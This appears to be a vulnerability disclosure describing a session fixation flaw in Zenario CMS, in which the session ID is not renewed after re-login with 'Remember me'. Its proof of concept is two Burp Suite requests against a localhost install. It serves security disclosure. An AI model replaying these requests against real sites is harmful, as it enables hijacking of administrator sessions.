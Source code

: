 # Session Fixation

Description: In Zenario CMS user session identifier (authentication token) is issued to the browser prior to authentication but is not changed after user logout and login again into the application when "Remember me" option active. Failing to issue a new session ID following a successful login introduces the possibility for an attacker to set up a trap session on the device the victim is likely to login with.

The product(s): https://zenar.io

Affected product(s)/code base: https://github.com/TribalSystems/Zenario

Affected component(s): /Zenario-9.3.57595/zenario/admin/welcome.ajax.php

Proof of Concept:

1. Logout with current session to confirm the session is not valid

Burpsuite Request:

``` txt
POST /Zenario-9.3.57595/zenario/admin/welcome.ajax.php?task=logout&get=%7B%22task%22%3A%22logout%22%2C%22cID%22%3A%221%22%2C%22cType%22%3A%22html%22%7D HTTP/1.1
Host: localhost
Content-Length: 19
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://localhost
Referer: http://localhost/Zenario-9.3.57595/admin.php?task=logout&cID=1&cType=html
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en;q=0.9
Cookie: PHPSESSID-Zenario_9_3_57595=mbu2ar0qnut2bmibuka94fq1ue
Connection: close

_fill=true&_values=
```

![](images/logout.png)

To confirm, request change password for admin is not success.

![](images/change-pass-fail.png)

2. Login as administrator with "Remember me".

Burpsuite Request:

``` txt
POST /Zenario-9.3.57595/zenario/admin/welcome.ajax.php?task=&get=%7B%22cID%22%3A%221%22%2C%22cType%22%3A%22html%22%7D HTTP/1.1
Host: localhost
Content-Length: 726
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://localhost
Referer: http://localhost/Zenario-9.3.57595/admin.php?cID=1&cType=html
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en;q=0.9
Cookie: PHPSESSID-Zenario_9_3_57595=mbu2ar0qnut2bmibuka94fq1ue
Connection: close

_validate=true&_box={"tab"%3a"~login","tabs"%3a{"login"%3a{"edit_mode"%3a{"on"%3a1},"fields"%3a{"reset"%3a{"_was_hidden_before"%3atrue},"description"%3a{},"secure_connection"%3a{"_was_hidden_before"%3atrue},"not_secure_connection"%3a{},"username"%3a{"current_value"%3a"~leecybersec~40gmail~2Ecom"},"password"%3a{"current_value"%3a"~leecybersec"},"admin_login_captcha"%3a{"_was_hidden_before"%3atrue,"current_value"%3a""},"remember_me"%3a{"current_value"%3atrue},"admin_link"%3a{},"login"%3a{"pressed"%3atrue},"forgot"%3a{"pressed"%3afalse},"previous"%3a{"pressed"%3afalse}}},"forgot"%3a{"edit_mode"%3a{"on"%3a1},"fields"%3a{"description"%3a{},"email"%3a{"current_value"%3a""},"previous"%3a{},"reset"%3a{}}}},"path"%3a"~login"}
```

![](images/login.png)

To confirm, request change password for admin is success.

![](images/change-pass-success.png)

Discoverer(s)/Credits: CMCSOC Redteam (@lithonn)

- Ngo Van Tu (@leecybersec)